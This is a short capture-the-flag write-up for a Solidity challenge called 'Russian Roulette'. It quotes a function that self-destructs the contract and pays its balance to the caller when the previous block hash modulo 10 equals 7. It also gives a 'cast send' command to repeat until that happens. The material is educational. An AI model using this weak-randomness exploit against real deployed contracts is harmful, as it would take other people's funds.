 ## Russian Roulette

## code / Description
```solidity
function pullTrigger() public returns (string memory) {
    if (uint256(blockhash(block.number - 1)) % 10 == 7) {
        selfdestruct(payable(msg.sender)); // 💀
    } else {
    return "im SAFU ... for now";
    }
}
```

## Challenge Analysis

The "RussianRoulette" challenge contains a Solidity function that calculates a modulo 10 of the previous block's hash; if the result is 7, it triggers self-destruction of the contract.


## Solution

The solution involves repeatedly calling the pullTrigger() function within the smart contract until the condition where the previous block's hash modulo 10 equals 7 is met, leading to the contract's self-destruction.


## Final Exploit code (optional)

send this transaction until the contract's self-destruction:

```bash
cast send <TARGET_CONTRACT_ADDRESS> "pullTrigger()" --private-key <PRIVATE_KEY> --rpc-url <RPC_URL>
```

> Authors - [Mohammad Eminem](https://github.com/m-amini-sss)